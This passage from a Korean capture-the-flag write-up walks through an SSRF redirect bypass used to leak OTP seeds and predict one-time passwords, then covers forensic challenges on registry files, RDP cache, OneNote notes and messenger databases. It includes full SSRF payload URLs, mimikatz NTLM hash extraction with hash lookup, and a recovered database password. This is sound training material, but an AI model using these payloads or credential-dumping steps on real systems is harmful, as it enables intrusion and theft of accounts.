이것을 우회하기 위해서, localhost로 redirect를 해주는 방법을 사용할 수 있습니다.

`image_render?url=https://307.r3dir.me/--to/?url=http://localhost`로 접근하면 다음과 같은 파일들을 확인할 수 있습니다.



```py
@app.route('/otp', methods=['GET', 'POST'])
def otp():
    if 'user' not in session:
        return "Please login first."
    

    if request.method == "GET":
        return render_template('otp.html')
    
    session_id = session['session_id']
    try:
        print("Test OTP : ", requests.get(f"http://127.0.0.1/otp_gen?session_id={session_id}", timeout=2))

        response = requests.get(f"http://127.0.0.1/otp_gen?session_id={session_id}", timeout=2)
        if response.status_code != 200:
            return "Failed to generate OTP."
    
        expected_otp = response.json().get("otp")
    except:
        return "Failed to generate OTP."
    
    otp = request.form.get('otp')
    time.sleep(5) # burte force protection
    if otp == expected_otp:
        session['otp_check'] = True
        session['flag'] = open("/FLAG", "r").read()
        return redirect_with_alert("OTP verification successful.", "/")
    else:
        flash("Invalid OTP.")
        return redirect("/otp")
```

`/otp` 경로에서 expected_otp를 맞추면 플래그를 획득할 수 있는 것을 알 수 있습니다.

```py
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == "GET":
        return render_template('login.html')
    
    username = request.form.get('user_id')
    password = request.form.get('password')

    if username in users and users[username]["password"] == password:
        session_id, _ = get_session_id()
        session['user'] = username
        session['session_id'] = session_id
        session['seed'] = int(time.time()) + random.randint(1000, 9999)  
        session['created_at'] = time.time()
        session['otp_check'] = False

        seeds = load_seeds()
        seeds[session_id] = {
            "seed": session['seed'],
            "created_at": session['created_at']
        }
        save_seeds(seeds)

        return redirect_with_alert("Login successful.", "/otp")
    else:
        flash("Invalid credentials.")
        return redirect("/login")

...

"""OTP Service"""
class OTPSingleton:
    _instance = {}
    _lock = threading.Lock()

    def __new__(cls, session_id, seed):
        with cls._lock:
            if session_id not in cls._instance:
                instance = super(OTPSingleton, cls).__new__(cls)
                instance.initialize(seed)
                cls._instance[session_id] = instance 
            return cls._instance[session_id]
    
    def initialize(self, seed):
        self.random_gen = random.Random(seed)
        
    def generate_otp(self):
        return str(self.random_gen.getrandbits(32))

def generate_otp(session_id, seed):
    otpInst = OTPSingleton(session_id, seed)
    otp = otpInst.generate_otp()
    return otp

class OTPHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        query_params = parse_qs(parsed_path.query)

        if parsed_path.path == "/otp_gen":
            session_id = query_params.get("session_id", [""])[0]

            if not session_id:
                self.send_response(400)
                self.end_headers()
                self.wfile.write(b"Invalid session ID")
                return
            
            if os.path.exists("otp_seeds.json"):
                with open("otp_seeds.json", "r") as f:
                    seeds = json.load(f)
            else:
                seeds = {}
           
            if session_id not in seeds:
                self.send_response(403)
                self.end_headers()
                self.wfile.write(b"Unauthorized: Invalid session ID")
                return

            
            otp_value = generate_otp(session_id, seeds[session_id]["seed"])
            response = {"otp": otp_value}

            self.send_response(200)
            self.send_header("Content-type", "application/json")
            self.end_headers()
            self.wfile.write(json.dumps(response).encode("utf-8"))
        
        else:
            super().do_GET()

```

로직을 분석하여, 로그인 시 otp를 요구하는 것을 확인할 수 있습니다. 이때, otp를 생성하기 위해, seed가 초기화 됩니다. `session['seed'] = int(time.time()) + random.randint(1000, 9999)` 와 같이 랜덤하게 생성됩니다. seed와 session간 매핑은 서버사이드에 `otp_seeds.json`에 저장됩니다. seed가 노출되면, otp를 유도할 수 있습니다.
 
ssrf를 통하여 `otp_seeds.json`을 읽을 수 있습니다. 아래는 예시입니다.
```json
{"yBTi4Y-lBxr1DvtTCykDZ5JHLHTw5DJdaKnBMmO_yD8.WIdhH5bgZZvFG6P9maB7b3XzdPM": {"seed": 1745653914, "created_at": 1745649169.1488063}, "vFSAJaEPSKi4Gea44q829ge0kQI49edYkPtP9OFMriU.BbUZQl9oiPTKsYlzkLsnAQR0W5c": {"seed": 1745656227, "created_at": 1745650234.6340072}, "wU5SBh8YOmvIxN0jEm7yQgXfeVkpF4tnD-EU2-q0aFY.R1tGkh3hlEBlAWDxnSoeTZKujBM": {"seed": 1745650746, "created_at": 1745649589.8074505}, "h1EdELBMrvK-SumalbeISwW_HG6tHWkjJVGaWeclLDo.XRHNUiXwe86X_QKVlUDU-AyATvo": {"seed": 1745652580, "created_at": 1745649613.227254}, "chNuse4LEd5ES8l1G0HgBDtBTXqtPyK6KjbM2YmnjZw.lARq95eP7lXW4mUm4L-A36ObKas": {"seed": 1745651557, "created_at": 1745649732.7930446}, "umbTkVq1fn8eRgTl4Ds2HZLsCnM7m40v93lwa1TjPXc.1WO8hIW1zwJdmEEQgwV6JzJb5uk": {"seed": 1745659779, "created_at": 1745650128.1445465}}
```

위의 json 파일에 seed가 포함되어 있어, 이 seed를 활용하여 로컬에서 리모트와 동일한 otp 값을 생성할 수 있습니다. 로컬에서 생성한 otp 값을 리모트와 대조할 수도 있습니다. ssrf 취약점을 더 활용하여 아래와 같은 endpoint에 접근하면, otp 값을 받을 수 있습니다.

```
http://hacktheon2025-challs-alb-1354048441.ap-northeast-2.elb.amazonaws.com:39406/image_render?url=https://307.r3dir.me/--to/?url=http://localhost/otp_gen?session_id=EyPGkjGnVMAQRtsylaYYHv5q1mBodAhH-Q6N-4UtD9E.vtepPFjOfvXeFGQzI67bYanZxXM
```

이때, GET paramter로 설정하는 session id는 올바른 값으로 설정하여야 합니다. 



로컬에서 생성한 otp값을 사용하여 로그인에 성공하여, 플래그를 획득합니다.



flag: `FLAG{55rf_byp455_0tp_prn9_345y_cr4ck3d}`

### Forensic

#### Shadow of the System

제공된 SYSTEM 파일을 분석하던 중, 레지스트리의 헤더에서 regf라는 특성을 확인할 수 있었습니다. 

Windows 레지스트리 수집 및 분석 도구인 REGA를 이용해 SYSTEM 파일을 분석하던 중, 특정 Windows 항목에서 다음과 같은 문자열을 발견했습니다. 해당 문자열 안에 플래그가 포함되어 있습니다.



flag: `FLAG{8yp455_u4c_g37_5y5t3m}`

#### Watch

bcache24.bmc 파일과 Cache0000.bin 파일이 제공되었습니다. 이 두 파일은 원격 데스크톱 프로토콜(RDP)의 비트맵 캐시 데이터로, [bmc-tools](https://github.com/ANSSI-FR/bmc-tools)라는 RDP Bitmap Cache Parser를 사용해 분석할 수 있습니다.

bmc-tools는 bcache*.bmc 및 cache????.bin 형식의 파일을 처리하여, 사용자가 RDP 세션에서 보았던 화면의 이미지 조각들을 복원해줍니다. 

해당 도구를 사용해 분석한 결과, 화면에 다음과 같은 문자열이 포함된 이미지를 확인할 수 있었습니다.


RDP BitMapCache는 원격 세션의 성능을 높이기 위해 클라이언트에 화면 정보를 저장하는 기능입니다. 이 Cache를 이용해 공격자가 사용자의 원격 세션에서 어떤 활동을 했는지를 역추적할 수 있습니다.

flag: `FLAG{s0m3on3_1s_w4tch1n9_my_pc}`

#### Nothing is essential

DISK.ad1 디스크 이미지 파일과 함께 아래 지문이 제공됩니다. 

```
Analyze the PC to identify the time of the meeting scheduled by the user.

FLAG Format: FLAG{yyyy/mm/dd_hh:mm}
```

사용자가 어떤 방식으로든 미팅 시간을 남긴 아티팩트를 추적하는 것이 핵심입니다.

Notepad, Notion, Sublime Text 등의 일부 흔적이 존재했지만 모두 의미가 없었습니다.

Notepad/backup 경로에 존재하는 new 1@2025-03-11_223756 파일에서 다음과 같은 문장을 발견할 수 있습니다. 하지만 이는 혼란을 주기 위한 가짜 정보로 확인되었습니다.
- Umm... My appointment today is at... 5:??... Huh? What was I trying to do?

Notion은 https://www.notion.so/Note-1b4738014012804cb3a8c612a63c8d55?pvs=3 에서 작업한 흔적이 존재했고, 로컬 Notion 작업 폴더에서도 "Not here!!" 라는 메시지를 발견했으며, 이 역시 플래그와 무관했습니다.

결정적인 정보는 OneNote 내의 아티펙트에서 정보를 확인할 수 있었습니다.
- "\OneNote\16.0\Memory\notes.sdk_b193c846-2e04-40da-a8ed-1628569cfbd9.db"

이는 사용자가 OneNote의 Memory 기능을 통해 작성한 메모로 보이며, 미팅 시간이 정확히 명시되어 있었습니다.

```
{""id"":""26078023-c8db-4941-b772-b379fb73c7c5"",""createdByApp"":""OneNoteMemory"",""title"":""Schedule appointment: Meet’s doorstep on 14 March 2025 at 17:40"",""document"":{""type"":""document"",""content"":[{""id"":""46d3d76c-d83e-497c-a3d8-55fd892f6a40"",""key"":"""",""type"":""paragraph"",""content"":{""text"":""Schedule appointment: Meet’s doorstep on 14 March 2025 at 17:40"",""inlineStyles"":[]},""blockStyle"":{""bullet"":false,""textDirection"":""ltr""}}]},""color"":""Purple"",""remoteId"":""AAkALgAAAAAAHYQDEapmEc2byACqAC-EWg0AJtyts2HHqES3FFOc_adTkQABObb-agAA"",""changeKey"":""CQAAABYAAAAm3K2zYceoRLcUU5z5p1ORAAE5sfNF"",""serverShadowNote"":{""id"":""26078023-c8db-4941-b772-b379fb73c7c5"",""createdByApp"":""OneNoteMemory"",""title"":""Schedule appointment: Meet’s doorstep on 14 March 2025 at 17:40"",""document"":{""type"":""document"",""content"":[{""id"":""46d3d76c-d83e-497c-a3d8-55fd892f6a40"",""key"":"""",""type"":""paragraph"",""content"":{""text"":""Schedule appointment: Meet’s doorstep on 14 March 2025 at 17:40"",""inlineStyles"":[]},""blockStyle"":{""bullet"":false,""textDirection"":""ltr""}}]},""color"":""Purple"",""deleted"":false,""createdAt"":1741758926000,""documentModifiedAt"":1741758966573,""media"":[],""deletedMediaIds"":[],""metadata"":{""context"":{""displayName"":"""",""host"":""unknown.exe"",""hostIcon"":"""",""url"":""""}}},""deleted"":false,""createdAt"":1741758926000,""lastModified"":1741758966000,""documentModifiedAt"":1741758966573,""media"":[],""deletedMediaIds"":[],""metadata"":{""context"":{""displayName"":"""",""host"":""unknown.exe"",""hostIcon"":"""",""url"":""""}}}
```



flag: `FLAG{2025/03/14_17:40}`

#### Password

Windows Credentials를 분석하는 포렌식 문제입니다. 

메신저로 주고받은 대화를 분석해서 단서를 얻을 수 있습니다.

암호가 걸려있는 FILE.zip 파일의 암호를 찾아 압축 해제하면 플래그를 얻을 수 있습니다.

문제에서 주어지는 Password.ad1 파일을 FTK Imager로 열면 최상위 루트 파일 시스템에서 Users 폴더와 Windows 폴더를 확인할 수 있습니다.



이런 경우는 Windows\System32 폴더에 있는 레지스트리와 %USERPROFILE%\Appdata 폴더에서 어플리케이션 데이터를 추출할 수 있습니다.



Appdata\Roaming 폴더를 확인하면 Element, Session, Telegram Desktop 메신저의 데이터를 확인할 수 있습니다.

세 가지 메신저 모두 개인 정보 보호에 초점을 둔 메신저인데, Session은 데이터 폴더만 복사해도 메세지 내역을 확인할 수 있습니다.



하지만 해당 메신저에서는 유의미한 대화 내역을 찾을 수 없었고, Telegram Desktop 메신저 또한 대화 내역을 확인하기 힘들었습니다.

따라서 마지막으로 Element 메신저를 확인해야하는데, 해당 메신저는 특히 보안에 신경 쓴 모습을 확인할 수 있었습니다.

데이터 파일은 모두 Windows Credential에 저장된 키를 이용하여 암호화 되어 있고, 종단간 암호화를 사용하여 대화 내역을 확인하기 어렵게 설계해두었습니다.

Element 메신저를 분석한 논문을 하나 찾을 수 있었는데, 이 논문을 확인하면 많은 정보를 얻을 수 있습니다.

[https://koreascience.kr/article/JAKO202204663817028.page](https://koreascience.kr/article/JAKO202204663817028.page)

처음에는 SQLite DB 파일을 분석하고 메신저 복구 키 값을 알아내어 대화 내역을 추출하려고 하였으나, 정보가 제한되어 실패하였습니다.

따라서, Events.db 파일을 이용하여 대화 내역을 추출하는 방법을 선택해야했습니다.

앞서 말했던것처럼 데이터베이스는 Windows Credential에 저장된 키를 이용하여 암호화 되는데, Windows Credential을 확인하려면 윈도우 레지스트리 파일과 유저의 비밀번호 값이 필요합니다.

[https://www.nitttrchd.ac.in/imee/Labmanuals/Password%20Cracking%20of%20Windows%20Operating%20System.pdf](https://www.nitttrchd.ac.in/imee/Labmanuals/Password%20Cracking%20of%20Windows%20Operating%20System.pdf)

해당 문서를 참고하여 mmikatz 툴을 이용하면 유저의 비밀번호 해시를 구할 수 있고, 구한 해시를 hashes.com에서 쿼리하면 비밀번호를 얻을 수 있습니다.

```
RID  : 000003e8 (1000)
User : USER
  Hash NTLM: dfbd8919a9b9d7d14f74638d8ec81fd2
```



구한 패스워드와 CredentialsFileView 프로그램을 이용하면 Credential 을 열람할 수 있습니다.



데이터베이스의 패스워드는 `a2aoV6vikSdKd/lwE5UtBZ04YO8T5R4PruD7f6eSB/g` 입니다.



Events.db에서 events 테이블을 확인하면 대화 내역을 확인할 수 있습니다.



대화 중 Hex로 된 값을 교환하는것을 확인할 수 있고, Shared Secret Key라는 문구가 보입니다. 또한 Kyber768 및 liboqs가 언급되는데, 이를 이용하면 Shared Secret Key를 구할 수 있는것으로 보입니다.

```python
import liboqs

sk = bytes.fromhex("48f62f4b7a28ec642c4712109876607c49c23024102c121b65540ff3a5a1e08c34c52922dc013462870dfb6c8b84b6bc352a2b2ef5932503cab5e24b6e505bcd9c6abeda9756632e9c9c86314b7f9f56c3d1e2b9badb7a8fc47185b533127c5fcde7b799c0a6456049f767600953065d5506379391d345753ce36bfa3083a9797ec26b371278170985264de691c6653a06c2303a43a0a191660520599a9c6d7088cafdb4405ce7a168a1104a9c012a8a2d585457b802052bc4a08a625a99167782b4150a79476709d03eb1a888e7078cc0301b593e91095af72a26af0aaa1437259e90199bf340da615e1643c82c576ff5340ee94005e85ba966670bfadabbac2bb70862347d11b1bbf1ad3a565094fa5a165560f1eab50580b438336254e9cc6a28817a0137282b5ca2152b44e065fa8c097b3764451644cc57409deb4203416ba738c4e6609e8ad018a9f02d534aa07bf435d8974c0c06c3ad961dd8c6b03a39a127c77d3c8b312c57332416405c3a7c7e94cf286a8ed02b23aca79acf8561513b8741e01717216ab44c4061203cba480c00a9adf4213d9fa3189cc803f670b6a8ca0fc7d5403f2b679b72b223a81428d88af60963c4a045a8d969768076fcab904cca48fa536f6dd5b38d985173a1184280061ba3b478e3c08cf0655c74330562882308b3afe8ba3c5a7bbd62c570957d98326cf1779e15fc3aef286a73039c90245196c53630778c1b156a1a0c73f1a75abeb629bdf07a0b65ab958318d065c67279095bb1c254f1b3a2925a194a6c106991eb4477f8d80c6ac7a2c815c489d48032bc933f295a1fb320f6612a5686300e635cfa8494fdf67f977870ebd0a1a2778a94fa62ec8200c0727c8b0b92a32c149cb12bc8616b0e1a39830ac8383309263baab70033e71527328c2dd4d2ae23ea17233b5eb6b94e7e3b70a4d38142276f6d07ab5f42599ef66f5afc7913241d11b8cc2a599cefb863cb9a036f4948e9c7178542bc6fc2404d105d31205ea0429cc1f0b42fecb7fe5563aaa26e7c014f5abc98d3d14597208227025635609b1a5c9605f562f5a5b9078c3e4779a9f3a9ce461758ff546eccc82d18518edf9182dbe42dd7f64ce130b43422cb4b45abf9d58eab17a58c74698d323e7df879a2c39c021a4ab1207336986ade9c7f569b79011ab11341991c431796b42763e803b2e7b67b734f62230180f47d020b06e7d7a8326906805828f3a56967711a0f800af89771d8929c0138ac4779cc5147403cd33ccaa9a74de90cd6337727011da1771d7f386e2116035d2802faec005a07572be290d3084771d4984b141d6eeb65f127c0152507231a9d87826c5abc27b422543d983f99cc2f04008b46c28d0bb64e63b0610d8b2b2ca62e8cc746299943416a4dbf3b3af3a722d2f795f4212bb219a60e28b18439a643148b6c919da1b9aa7584a67e1c265c3202643b4213cb96149617af36733f7c151216c5ba897c8505c8a6439b8f456d2019cea20a665ed29cbb75c44a9202df57a384b345ed862f3a4a46c01b2740aca62b005021f6bb322b43a2bb10e2630e45f598364baadf8a464657c2ec787677b300fd294020a5c3e1c14faeb9c94c6a072e7b6a7f8ba45d0078350ca041b69798134f4a6bad5ccc9d29ebc3b7249a5f51aa8eb1adddb5235ba0b34f199fa3d91b28d820816293b621b4c1449569255c8da603e6bb843b1763fcdca5d549244609a5edbc4de35088282abddb837c22c6ce28302980d04fd5d178aef5371d67919f9b14dcea74efa40bf4734a163c1ee16c323e4c40a12865df06037e809b8de07349d47925099c47a2818b2b9edca0b0a06ab4031ca77f8218a6da2ba4f7cfa7822298db70b8e610da34a869b0840a4b97897a7050b22f30a3c8aa00cc02e66586f2913384bc2c798787e16ed67bae237969b58a67ab4b7960ec1d79f29275052fcaf9b38d223111baae70e71e6cfb54f8e3902b5532eff89786622f652a2c1e134fef4772df90a61aeb01ff700268a73b1a604f5bc803221a2db9180cfbf62ac8f1bdfa04052f2b8cbb95ceaa67ba2b73af80b84aaf403cec497671435091682b7bb945bfb06b4dd65169f39a93586ca12b8b1705bb095c83ee702cbdf01ccca51320a53f38b68ec653045db219b4962af751218777b32e3374a986ad5c4296ef193d564a2f35f092bda3960ca532523928611c226f4c900f1c9c3f45c861662f46848b3117816c14bbac1b2070239e51b273c51892c299a6e601ceb91a8ca8f06a19ecc15a478e102c8b3015592c2c54f82c287b8052b8f0c75b2bb197240c7eaca60ac9ba8278c52cabc5a63244222b363060830379b90cb13f9f5b3df81468ef315447a664c8e99b86c8c50ae61011e5919a6193ae077018341d60120ec4d179dc4ac7691717881bc562682eca0c37309c97f501d0e3135da6e13269980185320ea29914ab09aa8c168c7ac376ebfbaa252cb5159a161f867a72d024c4d16b1526458e834b220c4dcfd6151915a2fe5c3ef0e8615853a90bf24bd062333673b942f7a4bdc6732cd669d240ac4e3b2d38e075a92c4be29b11adf8a96c9a8eac34c1e19a7530a2af205323468b3d247bbbd4aabff7941d2ad2cb2ce44eb2cb1b97a670725927af1959b0ecadab9b4e51c50900a05559351fabac74699035f7812258494b725a2eb764c37bb402d042cb5e962237dbb357441fdf468ae4070ef667205be773143c2d1699cef9091c1f4372ef91c4d25b6eea20484157acd6d640d2708f047631aa58c550459dd1b39288e25129b80ee729b080954b8eaa6f06ac74930a5c33b99bdcd987cd43b410075ff75628bc157e81021fbd463641e153bacbbb05a30db2a2c108457f10d7c60f52537a934fceb884